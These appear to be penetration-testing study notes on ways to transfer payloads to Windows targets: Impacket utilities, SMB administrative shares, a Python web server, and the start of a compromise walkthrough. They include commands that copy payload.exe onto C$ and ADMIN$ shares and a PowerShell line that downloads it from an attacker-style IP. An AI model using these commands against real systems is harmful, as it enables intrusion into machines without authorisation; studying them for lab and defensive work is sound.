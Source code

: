 ### Payload Transfer Methods

#### Impacket

**Key utilities:**
- **psexec**: Remote command execution
- **smbclient**: SMB client interactions
- **wmiexec**: WMI-based execution
- **smbserver**: Stand up SMB server

**Example SMB server:**
```bash
sudo impacket-smbserver share $(pwd) -smb2support
```

#### SMB Shares

**Administrative shares:**
- **C$**: Administrative share to C: drive
- **ADMIN$**: Administrative share to Windows directory
- **IPC$**: Inter-Process Communication share

**Usage for payload transfer:**
```bash
copy payload.exe \\target\C$\temp\
copy payload.exe \\target\ADMIN$\temp\
```

#### HTTP/HTTPS Transfer

**Python web server:**
```bash
python3 -m http.server 80
```

**PowerShell download:**
```powershell
(New-Object Net.WebClient).DownloadFile('http://10.10.14.15/payload.exe', 'C:\temp\payload.exe')
```

#### Other Protocols

- **FTP**: File Transfer Protocol
- **TFTP**: Trivial File Transfer Protocol
- **SCP**: Secure Copy Protocol
- **BITS**: Background Intelligent Transfer Service

## Example Compromise Walkthrough

### Step 1: Host Enumeration

**Comprehensive Nmap scan:**
```bash
nmap -v -A 10.129.201.97
```
